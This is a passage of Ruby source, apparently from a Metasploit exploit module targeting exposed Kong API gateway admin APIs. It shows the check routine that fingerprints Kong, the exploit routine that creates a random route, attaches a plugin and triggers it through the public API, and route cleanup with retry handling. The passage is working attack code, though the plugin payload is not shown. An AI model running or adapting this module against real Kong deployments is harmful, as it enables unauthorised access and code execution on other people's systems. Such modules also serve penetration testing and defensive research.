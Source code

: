 ```
      check_response(response, 503, path, 'requesting route')
    rescue Msf::Exploit::Failed
      maximum_retries = 3
      if retry_count <= maximum_retries
        retry_count += 1
        print_status("Route not yet available, trying again - attempt #{retry_count}/#{maximum_retries}")
        sleep(retry_count**2)
        retry
      end
      raise
    end
  end

  def delete_route
    path = normalize_uri(target_uri.path, 'routes', @rand_name)

    # Delete it
    response = send_request_cgi({ 'method' => 'DELETE', 'uri' => path })
    check_response(response, 204, path, 'deleting route')

    # Check Whether it deleted
    response = send_request_cgi({ 'uri' => path })
    check_response(response, 404, path, 'verifying that route has been deleted')
  end

  def check
    @route_cleanup_required = false
    # Check admin API
    response = send_request_cgi
    return CheckCode::Unknown unless response
    return CheckCode::Safe unless response.get_json_document['tagline'] == 'Welcome to kong'

    # Check public API
    rhost = datastore['PUBLIC-API-RHOST'] if datastore['PUBLIC-API-RHOST']
    rport = datastore['PUBLIC-API-RPORT'] if datastore['PUBLIC-API-RPORT']
    path = normalize_uri(target_uri.path, @rand_name)
    response = send_request_cgi({ 'rport' => rport, 'rhost' => rhost, 'uri' => path })
    return CheckCode::Unknown unless response
    return CheckCode::Safe unless response.get_json_document['message'] == 'no Route matched with those values'

    CheckCode::Appears
  end

  def exploit
    @rand_name = rand_text_alphanumeric(10)
    @route_cleanup_required = false
    fail_with(Failure::UnexpectedReply, 'Admin API not detected') unless check == CheckCode::Appears
    @route_cleanup_required = true
    create_route
    vprint_good("Created route #{@rand_name}")
    create_plugin
    vprint_good("Created plugin for route #{@rand_name}")
    request_route
    vprint_good("Requested route #{@rand_name} using public API")
  end

  def cleanup
    return unless @route_cleanup_required

    delete_route
```